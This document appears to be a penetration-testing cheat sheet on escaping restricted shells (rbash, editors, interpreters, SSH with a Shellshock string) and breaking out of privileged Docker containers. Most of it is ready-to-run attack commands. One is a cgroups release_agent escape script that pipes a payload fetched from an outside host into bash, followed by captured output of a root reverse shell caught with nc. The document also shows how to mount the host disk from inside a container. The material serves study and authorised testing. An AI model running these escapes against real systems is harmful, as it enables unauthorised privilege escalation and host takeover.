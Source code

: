 # Escaping Restricted Shells

## Breaking Out Of The Jail

_You can execute built-in shell commands, as well as the ones in your $PATH_

## Unix/Linux

### Enumerate

Get environment variables: 

```text
env
printenv
```

Any programs a different user: 

```text
sudo -l
```

Check current PATH: 

```text
echo $PATH
```

List contents of PATH:

```text
ls path/to/PATH
echo path/to/PATH/*
```

List export variables: 

```text
export -p
```

**Research each executable command, look for odd parameters:**

* man pages
* [GTFOBin](https://gtfobins.github.io/)
* Vulnerabilities in the command

### Writable PATH

* If PATH is writable, game on!
  * `export PATH=/usr/local/bin:/usr/bin:/bin:$PATH`

### Text Editors

* vi, vim, man, less, more

```text
:set shell=/bin/bash
:shell
# or
:!/bin/bash
```

#### nano

```text
# Control - R, Control - X
^R^X
reset; sh 1>&0 2>&0
```

#### ed 

`!'/bin/sh'`

### Common Tools

```text
# cp
cp /bin/sh /current/PATH
# ftp
ftp
ftp>!/bin/sh
# gdb
gdb
(gdb)!/bin/sh
# awk
awk 'BEGIN {system("/bin/bash")}'
# find
find / -name bleh -exec /bin/bash \;
# expect
expect
spawn sh
```

### SSH

```text
# exec commands before remote shell are loaded
ssh test@victim -t "/bin/sh"
# start ssh without loading any profile
ssh test@victim -t "bash --noprofile"
# try shellshock
ssh test@victim -t "() { :; }; /bin/bash"
```

### Scripting Languages

```text
# python
python -c 'import os;os.system("/bin/bash")'
# perl
perl -e 'exec "/bin/sh";'
# ruby
ruby -e 'exec /bin/sh'
```

### Writing To a File

```text
echo "hello world!" | tee hello.sh
echo "append to the same file" | tee -a hello.sh
```

#### Resources

[SANS](https://www.sans.org/blog/escaping-restricted-linux-shells/) [Hacking Articles](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/) [Escape From SHELLcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)

### rbash \(Restricted Bash\) Escape

The most simple scenario in which we can escape rbash can be the following.

Let's startup by creating a user with a rbash shell:

```text
root@ubuntu:/home# pwd
/home
root@ubuntu:/home# mkdir ruser
root@ubuntu:/home# useradd ruser -d /home/ruser -s /bin/rbash
root@ubuntu:/home# passwd ruser
New password: 
Retype new password: 
passwd: password updated successfully
root@ubuntu:/home# chown ruser:ruser /home/ruser
```

Next, we should inspect the SHELL environment variable, and we should see rbash:

```text
root@ubuntu:/home# su ruser
ruser@ubuntu:/home$ id
uid=1001(ruser) gid=1001(ruser) groups=1001(ruser)
ruser@ubuntu:/home$ export | grep SHELL
declare -rx SHELL="/bin/rbash"
```

We can see that the user is using restricted bash \(rbash\). Which restricts some commands and movement:

```text
ruser@ubuntu:/home$ pwd
/home
ruser@ubuntu:/home$ cd
rbash: cd: restricted
ruser@ubuntu:/home$ cd ..
rbash: cd: restricted
ruser@ubuntu:/home$ cd /
rbash: cd: restricted
ruser@ubuntu:/home$ cat
^C
ruser@ubuntu:/home$ touch file
touch: cannot touch 'file': Permission denied
ruser@ubuntu:/home$ makedir folder
rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
ruser@ubuntu:/home$ 
```

However, this can be easily bypassed by simply executing bash \(yes, literally\):

```text
ruser@ubuntu:/home$ bash
ruser@ubuntu:/home$ cd ..
ruser@ubuntu:/$ pwd
/
ruser@ubuntu:/tmp$ cd /tmp
ruser@ubuntu:/tmp$ pwd
/tmp
ruser@ubuntu:/tmp$ touch test
ruser@ubuntu:/tmp$ ls test
test
```

As we can see above, I was able to move around.

### cgroups Escape

[This post](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/) has a nice POC that works to execute a command on the host from a privileged container. It runs `ps`, but we can modify that to run the same reverse shell from earlier:

```text
root@gitlab:~# d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
root@gitlab:~# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
root@gitlab:~# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@gitlab:~# echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.14.8/shell.sh | bash' >/c;
root@gitlab:~# chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
```

On running the last command, We can get a request for `shell.sh` at a webserver, and then a shell at a listening `nc`:

```text
username@hostname$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.220] 51066
id                                                  
uid=0(root) gid=0(root) groups=0(root)
```

### File System Escape

Instead of running commands, We could also mount the host filesystem. `lsblk` shows the devices, and `sda2` looks like the main disk:

```text
root@gitlab:/# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop1    7:1    0 71.3M  1 loop 
loop4    7:4    0 31.1M  1 loop 
loop2    7:2    0 55.5M  1 loop 
loop0    7:0    0 55.4M  1 loop 
sda      8:0    0   20G  0 disk 
|-sda2   8:2    0   18G  0 part /var/log/gitlab
|-sda3   8:3    0    2G  0 part [SWAP]
`-sda1   8:1    0    1M  0 part 
loop5    7:5    0 31.1M  1 loop 
loop3    7:3    0 71.4M  1 loop
```

We can mount it, and now we can have access to the host filesystem:

```text
root@gitlab:/# mount /dev/sda2 /mnt 
root@gitlab:/# ls /mnt/
bin  boot  cdrom  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var
```

## References

* [http://netsec.ws/?p=337](http://netsec.ws/?p=337)
* [https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)
* [https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)
* [http://airnesstheman.blogspot.ca/2011/05/breaking-out-of-jail-restricted-shell.html](http://airnesstheman.blogspot.ca/2011/05/breaking-out-of-jail-restricted-shell.html)
* [http://securebean.blogspot.ca/2014/05/escaping-restricted-shell\_3.html](http://securebean.blogspot.ca/2014/05/escaping-restricted-shell_3.html)

